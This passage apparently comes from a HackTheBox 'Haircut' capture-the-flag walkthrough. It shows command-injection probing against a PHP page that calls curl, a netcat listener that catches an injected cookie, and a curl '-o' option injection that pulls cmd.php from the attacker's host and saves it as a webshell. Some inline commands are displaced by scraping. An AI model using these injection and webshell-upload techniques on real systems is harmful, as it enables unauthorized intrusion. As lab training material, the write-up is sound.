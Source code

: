     <title> HTB Hairdresser </title>
    
    <center> <br><br><br><br>
    <img src="bounce.jpg"   alt="" />
    <center>
    

My best guess at this point is that the PHP is doing something like:

    if post
        system('curl ' . $POST["formurl"] . ' /path/to/some/directory')
    end if
    

Depending on what level of filtering is going on (if any), that could be vulnerable to a command injection and/or parameter injection attacks.

### Filter Enumeration

The first thing I tried was to fetch . The return shows that there’s some level of filtering going on:`http://10.10.14.15/test.php; ping -c 1 10.10.14.15;`

    	<span>
    		<p>Requesting Site...</p>; is not a good thing to put in a URL	</span>
    

I found a handful of other characters that seem to set off the filter: .`&|!#%[]{}`

### Option Injection

If I’m going to have trouble running a different command, could I at least mess with by injecting options. If I send , I can watch on to see if the cookie is included in the request. It is:`curl``http://10.10.14.15/test.php -b testcookie=testvalue``nc`

    root@kali# nc -lknvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.24.
    Ncat: Connection from 10.10.10.24:48118.
    GET /test.php HTTP/1.1
    Host: 10.10.14.15
    User-Agent: curl/7.47.0
    Accept: */*
    Cookie: test=test
    

I was successfully able to injection a option.`curl`

### Upload Webshell

Instead of a cookie, I’ll use to save the file on Haircut. I can save it into the directory and see if it will run as PHP there. When I submit , I only see the status come back:`-o``uploads``http://10.10.14.15/cmd.php -o uploads/0xdf.php`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200903165427061.png) 
